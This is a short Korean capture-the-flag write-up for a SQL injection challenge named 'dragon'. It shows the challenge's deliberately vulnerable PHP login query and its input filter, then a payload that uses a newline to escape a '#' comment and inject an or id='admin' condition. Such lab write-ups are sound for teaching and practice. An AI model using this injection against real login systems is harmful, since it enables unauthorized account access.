

Hello guest
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>

#는 한줄 주석처리이다. 그래서 라인피드(엔터)를 나타내는 문자 pw=0x0a를 써주면
query : select id from prob_dragon where id='guest'# and pw='' 에서
query : select id from prob_dragon where id='guest'# and pw='
'
이 된다. 그럼 id=guest의 pw조건이 사라졌으니 새로운 조건을 넣어주고 id=‘admin’을 뽑아내면 된다.
0x0a and pw=‘’ or id=‘admin 을 넣어주면
query : select id from prob_dragon where id='guest'# and pw=‘
0x0a and pw=‘’ or id=‘admin' 이 돼서 id=‘guest’ and pw=‘’ 은 거짓이고 id=‘admin’은 참이므로 성공이다.

query : select id from prob_dragon where id='guest'# and pw=''